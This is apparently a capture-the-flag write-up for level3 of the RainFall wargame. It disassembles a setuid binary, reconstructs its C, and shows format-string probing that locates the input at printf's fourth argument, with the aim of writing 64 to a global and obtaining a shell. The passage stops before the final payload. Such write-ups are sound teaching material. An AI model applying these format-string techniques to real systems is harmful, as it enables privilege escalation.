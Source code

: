 
# Preparations

Entering level3 home directory we see a level3 binary with sticky bit in access rights.
By objdumping the binary we see 2 functions: main and v:

	level3@RainFall:~$ objdump -D -M intel-mnemonic level3 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x0804851a <+0>:	push   %ebp
	   0x0804851b <+1>:	mov    %esp,%ebp
	   0x0804851d <+3>:	and    $0xfffffff0,%esp
	   0x08048520 <+6>:	call   0x80484a4 <v>
	   0x08048525 <+11>:	leave
	   0x08048526 <+12>:	re

The only action after prologue is a call of the v function.
So main will look like:

	int main(void)
	{
		v();
	}

Let's look in the v function:

	(gdb) disass v
	Dump of assembler code for function v:
	   0x080484a4 <+0>:	push   ebp
	   0x080484a5 <+1>:	mov    ebp,esp
	   0x080484a7 <+3>:	sub    esp,0x218
	   0x080484ad <+9>:	mov    eax,ds:0x8049860			;as last times we start to upload some FILE stream
	   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax		;argument for fgets, fourth
	   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200	;argument for fgets, third
	   0x080484be <+26>:	lea    eax,[ebp-0x208]			;argument for fgets, second
	   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax		;argument for fgets, first
	   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>		; call fgets with arguments placed on stack
	   0x080484cc <+40>:	lea    eax,[ebp-0x208]			;argument for printf
	   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax		;argument for printf, first
	   0x080484d5 <+49>:	call   0x8048390 <printf@plt>		; call printf with arguments placed on stack
	   0x080484da <+54>:	mov    eax,ds:0x804988c			;something new, finally it occured to be a global variable
	   0x080484df <+59>:	cmp    eax,0x40				;comparison to 64, global must be a number
	   0x080484e2 <+62>:	jne    0x8048518 <v+116>		;if global is not equal 64 we leave
	   0x080484e4 <+64>:	mov    eax,ds:0x8049880			;as last times we start to upload some FILE stream
	   0x080484e9 <+69>:	mov    edx,eax				;getting ready to fwrite call
	   0x080484eb <+71>:	mov    eax,0x8048600			;getting ready to fwrite call
	   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx		;argument for fwrite, fourth
	   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc		;argument for fwrite, third
	   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1		;argument for fwrite, second
	   0x08048504 <+96>:	mov    DWORD PTR [esp],eax		;argument for fwrite, first
	   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt> 		;call fwrite
	   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d	;preparation to system
	   0x08048513 <+111>:	call   0x80483c0 <system@plt>		;call system
	   0x08048518 <+116>:	leave
	   0x08048519 <+117>:	ret

Let's see some insites by their addresses:

	(gdb) x/s 0x804988c
		0x804988c <m>:	 ""
	(gdb) print *0x804988c
		$4 = 0

This variable (global one) equals zero that means that it is static (in C all the static variables are 0 by declaration):

	(gdb) x/s 0x8049860
		0x8049860 <stdin@@GLIBC_2.0>:	 "\300", <incomplete sequence \375\267>
	(gdb) x/s 0x8049880
		0x8049880 <stdout@@GLIBC_2.0>:	 " ", <incomplete sequence \375\267>
	(gdb) x/s 0x8048600
		0x8048600:	 "Wait what?!\n"
	(gdb) x/s 0x804860d
		0x804860d:	 "/bin/sh"

All the strings and FILE streams are known now.\
We also need to get the buffer size that is sent to first `fgets` function. We look at the stack + make tests:

	(gdb) x/150x $esp
		a lot of addresses and return addresses:
		0xbffff6d0:	0xb7fed280	0x00000000	0xbffff6e8	0x08048525

It is impossible to overwrite buffer this time because fgets takes definite number of symbols from stdin and all the other leaves there. From the address of the last found letter we substract the beginning of the buffer and get 511 byte + \0 = 512 byte.

	(gdb) p 0xbffff6cf - 0xbffff4d0
		$19 = 511

Numbers in hex are transferred to decimal with the help of programming calculator and finally we write the code in C.\

# Exploitation

We can use shell under level4 user if global variable is equal 64. Global variable lies in bss under address:

	level3@RainFall:~$ objdump -t ./level3
		0804988c g     O .bss	00000004              m

Or \x8c\x98\x04\x08 in little-endian.\
On this level we deal with format string exploits in `printf(buffer)`. It was difficult for understanding.\

String for `printf` lies on the stack and with the help of format string we can look at the stack without gdb:

	level3@RainFall:~$ ./level3
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 00000200 b7fd1ac0 b7ff37d0 **41414141** 41414141 41414141 41414141 41414141 41414141 41414141 41414141

Where our AAA string starts from the **fourth** `printf` argument. Let's try to rewrite address: